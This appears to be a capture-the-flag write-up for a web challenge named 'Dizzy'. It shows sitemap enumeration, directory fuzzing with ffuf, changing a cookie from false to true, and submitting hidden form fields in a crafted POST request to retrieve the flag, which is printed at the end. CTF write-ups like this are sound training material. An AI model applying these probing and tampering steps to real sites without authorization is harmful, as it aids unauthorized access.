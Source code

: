 # Dizzy

# 1. Sitemap

We start by navigating to:
http://141.85.224.118:8081/

This returns a basic webpage or a 404. A typical next step is to find website map. We went to sitemap.xml at **http://141.85.224.118:8081/sitemap.xml**. This file revealed a list of internal paths such as:

```bash
/f
/v
/g
/r
/z
/n
/c
/k
/y
/forbidden
```

However, the IPs listed were incorrect (e.g. 141.85.224.114 instead of .118), so we manually tested all these routes using the correct host: **http://141.85.224.118:8081/<route>**

## 2. Discovering the File Extension via ffuf

We suspected that some files might be using extensions like .php, .txt etc. To confirm, we ran ffuf:

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt -O wordlist.txt
```

Then we ran:

```bash
ffuf -u http://141.85.224.118:8081/FUZZ -w wordlist.txt -e .php,.html,.txt -fc 404
```

This revealed a hidden route:

```bash
.htaccess.php           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 11ms]
.htaccess               [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 11ms]
.hta.txt                [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 11ms]
.hta                    [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 11ms]
.htaccess.html          [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 11ms]
.htaccess.txt           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 8ms]
.hta.php                [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 11ms]
.hta.html               [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 11ms]
.htpasswd.php           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 8ms]
.htpasswd.txt           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 8ms]
.htpasswd.html          [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 7ms]
.htpasswd               [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 8ms]
c.php                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 7ms]
f.php                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 6ms]
g.php                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 7ms]
index.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 6ms]
index.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 34ms]
k.php                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 6ms]
n.php                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 6ms]
r.php                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 8ms]
server-status           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 7ms]
sitemap.xml             [Status: 200, Size: 2077, Words: 111, Lines: 75, Duration: 49ms]
v.php                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 32ms]
y.php                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 18ms]
z.php                   [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 35ms]
:: Progress: [19000/19000] :: Job [1/1] :: 904 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

This was not visible in the sitemap and was key to progressing. So we said forbidden also had .php extension after noticed that each of the <letter>.php pages redirected in a loop from one to the other.

## 3. Discovering forbidden.php
The most interesting route was: **http://141.85.224.118:8081/forbidden.php**
It showed a simple HTML form:

```html
<form method="POST">
  <p><strong>Did you like SSS so far? </strong></p>
  <input type="checkbox" value="yes" name="yes" /> Loved it! <br />
  <input type="checkbox" value="no" name="no" /> Not really... :(<br />
  <p><input type="submit" value="Let's see" name="submit" /></p>
</form>
```

Hidden at the bottom (visibly styled away), we noticed:

```html
<div style="text-align: center; color:rgba(241,15,140,.15);">SSS{}</div>
```

Clearly, the flag will appear here somehow.

## 4. Modifying Cookies
Using Burp Suite, we noticed a cookie named:

```vbnet
Cookie: fields=false
```

We changed it to:

```vbnet
Cookie: fields=true
```
and resent the request. The server now returned some hidden inputs:

```html
<p style="margin-left:-18px; display: none;">
  <input type="checkbox" value="g" name="g" />
  <input type="checkbox" value="i" name="i" />
  <input type="checkbox" value="v" name="v" />
  <input type="checkbox" value="e" name="e" />
  <input type="checkbox" value="m" name="m" />
  <input type="checkbox" value="e" name="e" />
  <input type="checkbox" value="t" name="t" />
  <input type="checkbox" value="h" name="h" />
  <input type="checkbox" value="e" name="e" />
  <input type="checkbox" value="f" name="f" />
  <input type="checkbox" value="l" name="l" />
  <input type="checkbox" value="a" name="a" />
  <input type="checkbox" value="g" name="g" />
</p>
```

This spells out: **give me the flag**

## 5. Submitting Full Payload
The final POST request with all these checkboxes set and submitted it:

```bash
POST /forbidden.php HTTP/1.1
Host: 141.85.224.118:8081
Content-Length: 79
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://141.85.224.118:8081
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://141.85.224.118:8081/forbidden.php
Accept-Encoding: gzip, deflate, br
Cookie: fields=true
Connection: keep-alive

yes=yes&submit=Let%27s+see
g=g&i=i&v=v&e=e&m=m&e=e&t=t&h=h&e=e&f=f&l=l&a=a&g=g
```

We received the flag inside the same hidden div:

```html
<div style="text-align: center; color:rgba(241,15,140,.15);">
  SSS{n0_m0re_c4rr0us3ls_f0r_m3}
</div>
```
